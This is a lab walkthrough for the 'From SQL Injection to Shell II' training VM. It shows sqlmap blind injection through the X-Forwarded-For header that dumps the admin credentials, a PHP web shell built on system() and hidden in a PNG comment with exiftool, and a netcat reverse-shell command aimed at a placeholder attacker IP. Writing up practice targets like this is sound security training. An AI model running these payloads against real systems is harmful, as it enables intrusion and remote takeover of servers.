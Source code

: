 

# Walkthrough FROM SQL INJECTION TO SHELL II

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).


![image](https://user-images.githubusercontent.com/38219437/138444044-8bb3effe-29b2-486c-bc0d-4dc96f89407a.png)


## Recon

### Tecnologies used:

```
nmap -sC -sV 192.168.77.128
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```

1. NGINX 0.7.67
2. PHP/5.3.3-7+squeeze15


```
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347

```

## Attack method

### Blind SQLi

I use this website to learn more about the differents usages of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**

![image](https://user-images.githubusercontent.com/38219437/138444198-b7ffc49e-1a2a-4bee-a545-b7538b5352ec.png)

**After some recon we are able to note only one point to explore, and gain a reverse shell: upload images feature.**


![image](https://user-images.githubusercontent.com/38219437/138444141-db3947ae-5757-4e5c-bfbb-19f0aeca7db2.png)

### Upload png file with php backdoor

**Things I try without success:**

1. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

2. Rename the image from file.php to file.php.png


## Final method

**First we create a php file with a backdoor inside it:**

```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
``` 

Explanation of the code:

1. First the code checks if there's a cmd parameter in the url;
2. If so, it creates a pre tag on the page to generate retrieve the information withou breaking it, keeping the breaks and the spaces.
3. Assigns the content of the parameter **cmd** to the variable **cmd**
4. System() is for executing a system command on the server and immediately displaying the output.
5. Kill the script


**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool exiftool "-comment<=file.php" backdoor.png
```

We are now ready to upload our backdoor and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor using:

```
(...).png/cmd.php?cmd=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```


